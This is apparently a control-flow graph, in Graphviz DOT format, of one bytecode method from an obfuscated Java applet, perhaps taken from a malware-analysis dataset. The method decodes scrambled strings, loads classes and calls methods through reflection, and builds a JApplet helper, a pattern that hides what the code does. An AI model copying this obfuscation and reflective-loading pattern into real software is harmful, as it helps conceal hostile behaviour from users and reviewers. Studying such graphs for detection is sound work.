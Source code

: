 digraph "" {
    "r0 := @this: r"
    "new java.lang.StringBuffer"
    "r0 := @this: r"->"new java.lang.StringBuffer";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "new java.lang.StringBuffer"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push 0"
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push 0";
    "newarray"
    "push 0"->"newarray";
    "store.r r1"
    "newarray"->"store.r r1";
    "staticget <aj: byte[] yw>"
    "store.r r1"->"staticget <aj: byte[] yw>";
    "staticget <aj: byte[] yw>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "push \"\\ERj-5=jq-u+%%TjIT6T\\25+bBj+RBJ5RT%jh-RBJgB\""
    "load.r r0"->"push \"\\ERj-5=jq-u+%%TjIT6T\\25+bBj+RBJ5RT%jh-RBJgB\"";
    "staticinvoke <c: java.lang.String hn(java.lang.String)>"
    "push \"\\ERj-5=jq-u+%%TjIT6T\\25+bBj+RBJ5RT%jh-RBJgB\""->"staticinvoke <c: java.lang.String hn(java.lang.String)>";
    "specialinvoke <r: java.lang.Class kesxdhuniyzzeywgawtfegnhb(java.lang.String)>"
    "staticinvoke <c: java.lang.String hn(java.lang.String)>"->"specialinvoke <r: java.lang.Class kesxdhuniyzzeywgawtfegnhb(java.lang.String)>";
    "dup1.r"
    "specialinvoke <r: java.lang.Class kesxdhuniyzzeywgawtfegnhb(java.lang.String)>"->"dup1.r";
    "staticget <aj: java.lang.String wvujsqbghhlzby>"
    "dup1.r"->"staticget <aj: java.lang.String wvujsqbghhlzby>";
    "push 1"
    "staticget <aj: java.lang.String wvujsqbghhlzby>"->"push 1";
    "staticinvoke <trot: java.lang.reflect.Method cvt(java.lang.Class,java.lang.String,boolean)>"
    "push 1"->"staticinvoke <trot: java.lang.reflect.Method cvt(java.lang.Class,java.lang.String,boolean)>";
    "push null"
    "staticinvoke <trot: java.lang.reflect.Method cvt(java.lang.Class,java.lang.String,boolean)>"->"push null";
    "push null"->"push 0";
    "push 0"->"newarray";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"
    "newarray"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "store.r r5"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"store.r r5";
    "store.r r5"->"push 0";
    "push 0"->"newarray";
    "store.r r6"
    "newarray"->"store.r r6";
    "staticget <aj: java.lang.String rxcamlcefmdjnswu>"
    "store.r r6"->"staticget <aj: java.lang.String rxcamlcefmdjnswu>";
    "staticget <aj: java.lang.String rxcamlcefmdjnswu>"->"push 0";
    "push 0"->"staticinvoke <trot: java.lang.reflect.Method cvt(java.lang.Class,java.lang.String,boolean)>";
    "load.r r5"
    "staticinvoke <trot: java.lang.reflect.Method cvt(java.lang.Class,java.lang.String,boolean)>"->"load.r r5";
    "load.r r5"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push null";
    "arraywrite.r"
    "push null"->"arraywrite.r";
    "arraywrite.r"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"store.r r5";
    "store.r r5"->"push 0";
    "push 0"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"push 0";
    "push 0"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"\\ERj-5=jq-u+%%TjIT6T\\25+bBj+RBJ5RT%joJRJ5TBJ9h%T\\\\P-T9J5\""
    "load.r r0"->"push \"\\ERj-5=jq-u+%%TjIT6T\\25+bBj+RBJ5RT%joJRJ5TBJ9h%T\\\\P-T9J5\"";
    "push \"\\ERj-5=jq-u+%%TjIT6T\\25+bBj+RBJ5RT%joJRJ5TBJ9h%T\\\\P-T9J5\""->"staticinvoke <c: java.lang.String hn(java.lang.String)>";
    "staticinvoke <c: java.lang.String hn(java.lang.String)>"->"specialinvoke <r: java.lang.Class kesxdhuniyzzeywgawtfegnhb(java.lang.String)>";
    "staticget <aj: java.lang.String roykfaqmhbljawayybk>"
    "specialinvoke <r: java.lang.Class kesxdhuniyzzeywgawtfegnhb(java.lang.String)>"->"staticget <aj: java.lang.String roykfaqmhbljawayybk>";
    "staticget <aj: java.lang.String roykfaqmhbljawayybk>"->"push 0";
    "push 0"->"staticinvoke <trot: java.lang.reflect.Method cvt(java.lang.Class,java.lang.String,boolean)>";
    "push 2"
    "staticinvoke <trot: java.lang.reflect.Method cvt(java.lang.Class,java.lang.String,boolean)>"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 1";
    "load.r r1"
    "push 1"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "checkcast"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"checkcast";
    "checkcast"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "pop"->"load.r r0";
    "new hzi"
    "load.r r0"->"new hzi";
    "new hzi"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <hzi: void <init>(javax.swing.JApplet)>"
    "load.r r0"->"specialinvoke <hzi: void <init>(javax.swing.JApplet)>";
    "fieldput <r: hzi ymtxyxgzeozn>"
    "specialinvoke <hzi: void <init>(javax.swing.JApplet)>"->"fieldput <r: hzi ymtxyxgzeozn>";
    "goto return"
    "fieldput <r: hzi ymtxyxgzeozn>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "specialinvoke <hzi: void <init>(javax.swing.JApplet)>"->"store.r r0";
}

